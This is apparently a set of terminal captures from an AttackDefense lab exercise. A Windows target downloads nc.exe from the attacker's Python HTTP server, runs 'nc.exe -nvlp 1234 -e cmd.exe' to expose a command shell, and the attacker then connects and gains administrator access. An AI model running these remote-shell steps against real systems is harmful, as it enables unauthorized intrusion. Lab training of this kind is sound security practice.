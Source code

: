 ```
-rwxr-xr-x  1 root root 704512 Jul 17  2019 radmin.exe
-rwxr-xr-x  1 root root 364544 Jul 17  2019 vncviewer.exe
-rwxr-xr-x  1 root root 308736 Jul 17  2019 wget.exe
-rwxr-xr-x  1 root root  66560 Jul 17  2019 whoami.exe
root@attackdefense:/usr/share/windows-binaries# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...

```

```
http://10.10.21.3/
```

```
root@attackdefense:/usr/share/windows-binaries# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.0.24.157 - - [16/Apr/2023 08:25:31] "GET / HTTP/1.1" 200 -
10.0.24.157 - - [16/Apr/2023 08:25:32] code 404, message File not found
10.0.24.157 - - [16/Apr/2023 08:25:32] "GET /favicon.ico HTTP/1.1" 404 -
10.0.24.157 - - [16/Apr/2023 08:25:43] "GET /nc.exe HTTP/1.1" 200 -
10.0.24.157 - - [16/Apr/2023 08:26:57] "GET / HTTP/1.1" 200 -
10.0.24.157 - - [16/Apr/2023 08:26:57] code 404, message File not found
10.0.24.157 - - [16/Apr/2023 08:26:57] "GET /favicon.ico HTTP/1.1" 404 -
10.0.24.157 - - [16/Apr/2023 08:26:59] "GET /nc.exe HTTP/1.1" 200 -

```

```
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>cd Downloads

C:\Users\Administrator\Downloads>dir
 Volume in drive C has no label.
 Volume Serial Number is AEDF-99BD

 Directory of C:\Users\Administrator\Downloads

04/16/2023  02:57 AM    <DIR>          .
04/16/2023  02:57 AM    <DIR>          ..
04/16/2023  02:57 AM            59,392 nc.exe
               1 File(s)         59,392 bytes
               2 Dir(s)   9,288,749,056 bytes free

```

```
C:\Users\Administrator\Downloads>nc.exe -nvlp 1234 -e cmd.exe
listening on [any] 1234 ...

```

```
root@attackdefense:/usr/share/windows-binaries# nc -nv 10.0.24.157 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Connected to 10.0.24.157:1234.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Downloads>whoami
whoami
win-omcnbkr66mn\administrator

C:\Users\Administrator\Downloads>dir
dir
 Volume in drive C has no label.
```